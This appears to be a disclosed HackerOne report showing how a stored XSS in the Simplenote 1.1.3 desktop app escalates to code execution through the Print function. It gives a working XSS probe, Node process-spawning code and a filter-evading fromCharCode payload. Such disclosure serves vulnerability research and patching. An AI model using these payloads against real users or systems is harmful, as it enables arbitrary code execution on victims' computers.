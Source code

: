 # RCE via Print function [Simplenote 1.1.3 - Desktop app] 

## Report Details
- **Report ID**: 358049
- **URL**: https://hackerone.com/reports/358049
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-05-27T09:33:36.011Z
- **Disclosed**: 2018-07-26T08:26:07.139Z

## Reporter
- **Username**: luigigubello
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: automattic

## Vulnerability Information
In **Simplenote 1.1.3 - Desktop app** there is a stored XSS vulnerability that can be used to execute arbitrary code. If there is malicious code in the note and the user tries to print it (for example to save it as a PDF), the malicious code runs.

This report is based on the [report **#291539**](https://hackerone.com/reports/291539), by Yasin Soliman (ysx). I used his code to pass from XSS to RCE.

# Step to reproduce

## 1 - Prerequisites

- Download and install Simplenote 1.1.3 Desktop app (I use Debian, but I think the problem is present on all desktop versions)
- Markdown must **not** be enabled

## 2 - Stored XSS

Create a new note, and you write this text:
```
">'><details/open/ontoggle=confirm('XSS')>
```
Now go to **File** --> **Print**. An alert box appears, so there is a XSS vulnerability and the code runs when the user tries to print the note.

## 3 - From XSS to RCE

Thanks to [**ysx**] (https://hackerone.com/ysx), I used the code in his proof-of-concept.
The code to open the Gnome calculator in Debian is:

```
var Process = process.binding('process_wrap').Process;
var proc = new Process();
proc.onexit = function(a,b) {};
var env = process.env;
var env_ = [];
for (var key in env) env_.push(key+'='+env[key]);
proc.spawn({file:'/usr/bin/gnome-calculator',cwd:null,windowsVerbatimArguments:false,detached:false,envPairs:env_,stdio:[{type:'ignore'},{type:'ignore'},{type:'ignore'}]});
```

Now you use the functions `writeln()` and `String.fromCharCode()` to bypass possible filters. So you [encode] (https://www.martineve.com/2007/05/15/javascript-eval-string-fromcharcode-encoder) the script into unicode values. Now you can create the payload:

```
">'><img src=x onerror=writeln(String.fromCharCode(60,115,99,114,105,112,116,62,10,118,97,114,32,80,114,111,99,101,115,115,32,61,32,112,114,111,99,101,115,115,46,98,105,110,100,105,110,103,40,39,112,114,111,99,101,115,115,95,119,114,97,112,39,41,46,80,114,111,99,101,115,115,59,10,118,97,114,32,112,114,111,99,32,61,32,110,101,119,32,80,114,111,99,101,115,115,40,41,59,10,112,114,111,99,46,111,110,101,120,105,116,32,61,32,102,117,110,99,116,105,111,110,40,97,44,98,41,32,123,125,59,10,118,97,114,32,101,110,118,32,61,32,112,114,111,99,101,115,115,46,101,110,118,59,10,118,97,114,32,101,110,118,95,32,61,32,91,93,59,10,102,111,114,32,40,118,97,114,32,107,101,121,32,105,110,32,101,110,118,41,32,101,110,118,95,46,112,117,115,104,40,107,101,121,43,39,61,39,43,101,110,118,91,107,101,121,93,41,59,10,112,114,111,99,46,115,112,97,119,110,40,123,102,105,108,101,58,39,47,117,115,114,47,98,105,110,47,103,110,111,109,101,45,99,97,108,99,117,108,97,116,111,114,39,44,99,119,100,58,110,117,108,108,44,119,105,110,100,111,119,115,86,101,114,98,97,116,105,109,65,114,103,117,109,101,110,116,115,58,102,97,108,115,101,44,100,101,116,97,99,104,101,100,58,102,97,108,115,101,44,101,110,118,80,97,105,114,115,58,101,110,118,95,44,115,116,100,105,111,58,91,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,44,123,116,121,112,101,58,39,105,103,110,111,114,101,39,125,93,125,41,59,10,60,47,115,99,114,105,112,116,62))>
```

You write it in a note, then you print it (or save like pdf). The Gnome calculator will open.

I have attached two screenshots and a proof-of-concept video.

## Impact

An attacker can create a note with malicious code. Then he can share it with the victim, asking to print it or save it in pdf (it may be useful to have a pdf file) so the code is executed on the victim's computer.

## Attachments
- simplenote_rce_screen.png
- simplenote_rce_poc.mp4
- simplenote_rce_screen2.png
